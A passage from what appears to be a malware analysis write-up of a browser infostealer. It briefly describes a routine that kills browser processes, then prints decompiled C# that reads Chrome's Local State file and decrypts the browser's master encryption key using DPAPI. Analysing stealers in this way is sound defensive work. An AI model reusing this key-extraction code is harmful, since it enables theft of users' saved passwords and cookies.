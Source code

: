 - Searches for running processes matching the browser's process name (e.g., `"chrome"`).
- Terminates each matched process.
- Waits for the process to fully exit.
- Silently ignores any access or kill errors.

# Stage 4:  FunctionsForStealer

```csharp
using System;
using System.IO;
using System.Linq;
using System.Runtime.CompilerServices;
using System.Security.Cryptography;
using System.Text;
using Main;
using Microsoft.CSharp.RuntimeBinder;
using Newtonsoft.Json;
using Org.BouncyCastle.Crypto.Engines;
using Org.BouncyCastle.Crypto.Modes;
using Org.BouncyCastle.Crypto.Parameters;

namespace Helpers
{
	internal class FunctionsForStealer
	{
		public class LocalStateKeys
		{
			public static byte[] GetKeyChrome()
			{
				string text = Variables.localappdata + "\\Google\\Chrome\\User Data\\Local State";
				string text2 = File.ReadAllText(text);
				object obj = JsonConvert.DeserializeObject(text2);
				if (FunctionsForStealer.LocalStateKeys.<>o__0.<>p__2 == null)
				{
					FunctionsForStealer.LocalStateKeys.<>o__0.<>p__2 = CallSite<Func<CallSite, object, string>>.Create(Binder.Convert(CSharpBinderFlags.None, typeof(string), typeof(FunctionsForStealer.LocalStateKeys)));
				}
				Func<CallSite, object, string> target = FunctionsForStealer.LocalStateKeys.<>o__0.<>p__2.Target;
				CallSite <>p__ = FunctionsForStealer.LocalStateKeys.<>o__0.<>p__2;
				if (FunctionsForStealer.LocalStateKeys.<>o__0.<>p__1 == null)
				{
					FunctionsForStealer.LocalStateKeys.<>o__0.<>p__1 = CallSite<Func<CallSite, object, object>>.Create(Binder.GetMember(CSharpBinderFlags.None, "encrypted_key", typeof(FunctionsForStealer.LocalStateKeys), new CSharpArgumentInfo[] { CSharpArgumentInfo.Create(CSharpArgumentInfoFlags.None, null) }));
				}
				Func<CallSite, object, object> target2 = FunctionsForStealer.LocalStateKeys.<>o__0.<>p__1.Target;
				CallSite <>p__2 = FunctionsForStealer.LocalStateKeys.<>o__0.<>p__1;
				if (FunctionsForStealer.LocalStateKeys.<>o__0.<>p__0 == null)
				{
					FunctionsForStealer.LocalStateKeys.<>o__0.<>p__0 = CallSite<Func<CallSite, object, object>>.Create(Binder.GetMember(CSharpBinderFlags.None, "os_crypt", typeof(FunctionsForStealer.LocalStateKeys), new CSharpArgumentInfo[] { CSharpArgumentInfo.Create(CSharpArgumentInfoFlags.None, null) }));
				}
				string text3 = target(<>p__, target2(<>p__2, FunctionsForStealer.LocalStateKeys.<>o__0.<>p__0.Target(FunctionsForStealer.LocalStateKeys.<>o__0.<>p__0, obj)));
				byte[] array = Convert.FromBase64String(text3).Skip(5).ToArray<byte>();
				return ProtectedData.Unprotect(array, null, DataProtectionScope.LocalMachine);
			}
```